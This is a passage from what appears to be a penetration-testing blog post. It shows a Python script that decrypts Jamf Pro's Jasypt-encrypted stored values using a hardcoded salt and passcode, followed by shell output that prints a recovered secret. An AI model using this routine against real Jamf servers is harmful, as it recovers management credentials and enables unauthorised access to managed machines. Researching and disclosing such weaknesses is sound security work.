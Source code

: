 ```python
    n_cipher_bytes = b64decode(ciphertext)

    # extract salt bytes 0 - SALT_SIZE
    #salt = array('B', n_cipher_bytes[:PKCS12ParameterGenerator.SALT_SIZE_BYTE])
    salt = array('B', 'A99BC8325635E303'.decode('hex'))
    # print('dec-salt = %s' % binascii.hexlify(salt))

    # create reverse key material
    key, iv = generator.generate_derived_parameters(password, salt, iterations, key_size_bits, iv_size_bits)

    cipher = AES.new(key, AES.MODE_CBC, iv)

    # extract encrypted message bytes SALT_SIZE - len(cipher)
    #n_cipher_message = array('B', n_cipher_bytes[PKCS12ParameterGenerator.SALT_SIZE_BYTE:])
    n_cipher_message = array('B', n_cipher_bytes)

    # decode the message and unpad
    decoded = cipher.decrypt(n_cipher_message.tostring())

    return generator.unpad(decoded)


if __name__ == "__main__":
    passcode = '2M#84->)y^%2kGmN97ZLfhbL|-M:j?'
    #result = encrypt(passcode, 'secret value', 19)

    #print('enc = %s' % result)

    ciphertext = 'E0px0HwYQkhCCSxPYH2L+PlHjBNl8SG+6HaiRhhkEWe3XGb16tI5LDUGPpRDKuKtbxGz4xu/1anStV+EQS4h/Q=='
    reverse = decrypt(passcode, ciphertext, 19)

    print('[+] Decrypted: %s' % reverse)

    # run something like this on the jasypt command line
    # $JASYPT_HOME/bin/decrypt.sh keyObtentionIterations = 4000 \
    #                             providerClassName = "org.bouncycastle.jce.provider.BouncyCastleProvider" \
    #                             saltGeneratorClassName = "org.jasypt.salt.RandomSaltGenerator" \
    #                             algorithm = "PBEWITHSHA256AND256BITAES-CBC-BC" \
    #                             password = 'pssst...don\'t tell anyone' \
    #                             input = 'xgX5+yRbKhs4zSubkAPkg9gSBkZU6XWt7csceM/3xDY='
```

It's not pretty, but does it work? Let's find out.

```shell
pentest@cortana:~$ python jamf_decrypt.py
[+] Decrypted: 36e5m6jodegrkdmmsq4mrt2orf35ktmq0j54o33ej76m3rgd77s
pentest@cortana:~$
```


[screenshot_01]: /assets/img/casper/screenshot_01.png "Jamf Pro"
[screenshot_02]: /assets/img/casper/screenshot_02.png "New Management Account"
[screenshot_03]: /assets/img/casper/screenshot_03.png "readKeyFromDatabase"
[screenshot_04]: /assets/img/casper/screenshot_04.png "Decrypted fields"
